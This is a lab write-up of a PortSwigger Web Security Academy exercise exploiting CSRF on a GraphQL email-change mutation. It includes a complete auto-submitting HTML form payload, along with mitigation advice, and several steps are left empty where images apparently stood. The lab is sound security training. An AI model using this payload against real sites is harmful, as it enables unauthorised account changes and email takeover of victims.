








#  Lab Report: Performing CSRF Exploits over GraphQL

##  Platform
PortSwigger Web Security Academy

---

##  Objective
To exploit a CSRF (Cross-Site Request Forgery) vulnerability in a GraphQL endpoint to change a user's email address without their consent.

---

##  Overview
This lab demonstrates how GraphQL endpoints that accept `application/x-www-form-urlencoded` requests can be vulnerable to CSRF attacks. Since browsers automatically include session cookies, an attacker can craft a malicious request to perform actions on behalf of the victim.

---

#  Methodology

The following steps were performed:

1. Logged into the lab using provided credentials  
2. Intercepted GraphQL request using Burp Suite  
3. Identified email change mutation  
4. Replayed request in Repeater  
5. Converted request to `x-www-form-urlencoded`  
6. Crafted CSRF PoC manually  
7. Deployed exploit using exploit server  
8. Delivered exploit to victim  
9. Verified email change  

---

# 🚀 Exploitation Steps

---

## 🔹 Step 1: Lab Initial State


---

## 🔹 Step 2: Capture GraphQL Request
POST /graphql/v1



---

## 🔹 Step 3: Analyze Mutation
mutation changeEmail($input: ChangeEmailInput!) {
  changeEmail(input: $input) {
    email
  }
}



---

## 🔹 Step 4: Replay Request


---

## 🔹 Step 5: Convert to URL Encoded
Content-Type: application/x-www-form-urlencoded



---

## 🔹 Step 6: Create CSRF Payload
```html
<html>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation changeEmail($input: ChangeEmailInput!) { changeEmail(input: $input) { email } }">
      <input type="hidden" name="operationName" value="changeEmail">
      <input type="hidden" name="variables" value='{"input":{"email":"csrf3@test.com"}}'>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



---

## 🔹 Step 7: Deploy Exploit


---

## 🔹 Step 8: Verify Exploit


---

#  Key Findings

- GraphQL mutation accepts form-encoded requests  
- No CSRF token validation  
- Session cookies automatically included  

---

#  Vulnerability

Cross-Site Request Forgery (CSRF)

---

#  Impact

- Unauthorized account modifications  
- Email takeover  

---

#  Mitigation

- Implement CSRF tokens  
- Use SameSite cookies  
- Validate Origin/Referer  
- Restrict content types  

---
 Conclusion

GraphQL endpoints can be exploited via CSRF when proper protections are not implemented.

